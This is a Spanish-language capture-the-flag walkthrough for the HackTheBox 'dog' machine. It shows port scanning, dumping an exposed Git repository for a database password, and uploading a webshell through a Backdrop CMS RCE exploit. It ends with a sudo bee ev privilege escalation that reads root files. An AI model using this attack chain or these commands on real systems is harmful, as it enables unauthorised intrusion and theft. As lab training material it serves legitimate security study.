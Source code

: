 # Walkthrough - HTB "dog" Machine

Este walkthrough detalla el proceso completo para explotar la máquina "dog" de HackTheBox. Se describen los pasos que incluyen la verificación de que la máquina está activa, descarga del repositorio Git, obtención de credenciales para el CMS Backdrop, explotación de una vulnerabilidad RCE en Backdrop, obtención de un shell, escalada de privilegios vía SSH y sudo, y finalmente la obtención de ambas flags (user y root).

---

## 1. Comprobación de Disponibilidad y Enumeración Inicial

Primero, se hace *ping* para confirmar que la máquina está activa y verificar el sistema operativo.

```bash
ping 10.10.11.58
```
**Salida (fragmento):**
```bash
PING 10.10.11.58 (10.10.11.58) 56(84) bytes of data. 64 bytes from 10.10.11.58: icmp_seq=1 ttl=63 time=39.9 ms 64 bytes from 10.10.11.58: icmp_seq=2 ttl=63 time=51.0 ms ...
```

Luego se realiza un escaneo con Nmap para identificar los puertos abiertos:

```bash
nmap -p- --min-rate=1000 -vvv -Pn 10.10.11.58
```
**Salida (fragmento):**

```bash
PORT STATE SERVICE 
22/tcp open ssh syn-ack 
80/tcp open http syn-ack
```

La máquina tiene abiertos los puertos **22 (SSH)** y **80 (HTTP)**.

---

## 2. Descarga del Repositorio Git

Se detecta que el directorio **.git** está accesible. Se procede a descargar el repositorio usando *git-dumper*. Primero se crea un entorno virtual, se instala la herramienta y luego se descarga:

```bash
python3 -m venv venv
source venv/bin/activate
pip install git-dumper
git-dumper http://10.10.11.58/.git/ ./dog_git_repo
```
Durante la descarga se encuentra, en el fichero de configuración **settings**, la siguiente cadena:

mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop


Esto indica que se usa la contraseña **BackDropJ2024DS2024** para la conexión a la base de datos del CMS Backdrop. Además, se localiza el correo de Tiffany en el repositorio, lo cual permite acceder al CMS.

---

## 3. Explotación del CMS y Vulnerabilidad RCE en Backdrop

Con las credenciales obtenidas (correo y la password de la BD) se accede al CMS Backdrop. Se investigan vulnerabilidades para Backdrop y se encuentra una RCE disponible en Exploit‑DB:  
[Exploit RCE - Exploit-DB 52021](https://www.exploit-db.com/exploits/52021).

Se descarga y se ejecuta el exploit:

```bash
python3 exploit.py 10.10.11.58
```
**Salida (fragmento):**

```bash
Backdrop CMS 1.27.1 - Remote Command Execution Exploit Evil module generating... 

Evil module generated! shell.zip 

Go to 10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation. 

Your shell address: 10.10.11.58/modules/shell/shell.php
```

Al darse cuenta de que la instalación no acepta archivos ZIP, se comprime el directorio que contiene el shell con:
  
```bash
tar -cvf shell.tar shell/
```
Con el archivo preparado se sube mediante la interfaz del CMS (en la sección de módulos, instalación manual) y se accede al webshell en:

http://dog.htb/modules/shell/shell.php?cmd=ls+%2Fhome


Esto permite ejecutar comandos; se visualizan los usuarios disponibles en `/home` y se accede por SSH usando la contraseña obtenida desde la BD.

---

## 4. Obtención de la User Flag

El acceso por SSH, usando las credenciales obtenidas (BackDropJ2024DS2024) facilita el ingreso al sistema. Además, se encuentra en la home un fichero llamado **myscript.php** con el contenido:

```bash
<?php system('id'); ?>
```
Aunque este script sirve para probar la ejecución de comandos, la flag de usuario se obtiene accediendo por SSH con las credenciales del CMS y explorando el sistema.

---

## 5. Escalada de Privilegios y Obtención de la Root Flag

Se consulta la posibilidad de escalar privilegios mediante sudo:

```bash
sudo -l
```
**Salida:**

```bash
Matching Defaults entries for johncusack on dog: env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User johncusack may run the following commands on dog: (ALL : ALL) /usr/local/bin/bee
```

El usuario **johncusack** puede ejecutar sin contraseña el comando **/usr/local/bin/bee**, una utilidad para controlar Backdrop desde línea de comandos (ver [Bee en Backdrop CMS](https://backdropcms.org/project/bee)).

El comando `bee ev` permite evaluar código PHP. Se prueba lo siguiente para ejecutar comandos desde la carpeta donde esta el cms instalado en este cado /var/www/html:
  
```bash
sudo /usr/local/bin/bee ev "system('ls')"
```
Se verifica además el contenido de `/root/`:
  
```bash
sudo /usr/local/bin/bee ev "system('ls /root/')"
``` 
Se observa la presencia de **root.txt**. Finalmente se lee la flag:

```bash
sudo /usr/local/bin/bee ev "system('cat /root/root.txt')"
``` 

Con esto se obtiene la **root flag**.

---

## 6. Conclusiones

Este walkthrough mostró los siguientes pasos:

1. **Comprobación y Enumeración Inicial:**  
   - Se verificó la disponibilidad con `ping` y se escanearon los puertos con Nmap (22 y 80).

2. **Descarga del Repositorio Git:**  
   - Se utilizó *git-dumper* para bajar el repositorio expuesto y se encontró la cadena de conexión a la BD del CMS Backdrop, permitiendo obtener acceso al sistema.

3. **Explotación del CMS y RCE en Backdrop:**  
   - Se ejecutó un exploit RCE (Exploit‑DB 52021) para generar un webshell, se preparó el archivo (comprimiéndolo), se subió y se obtuvo acceso mediante el shell.

4. **Obtención de la User Flag:**  
   - Se accedió al sistema via SSH con las credenciales obtenidas, y se encontró la primera flag.

5. **Escalada de Privilegios para Obtener la Root Flag:**  
   - Se ejecutó el comando `sudo /usr/local/bin/bee ev` para evaluar código PHP y ejecutar comandos que permitieron listar y leer el contenido de `/root/`, obteniendo la segunda flag.

**¡Enhorabuena! Has conseguido ambas flags.**

> **Advertencia:**  
> Este ejercicio se realizó en un entorno controlado (CTF). Utiliza estos conocimientos únicamente de forma ética y legal.

---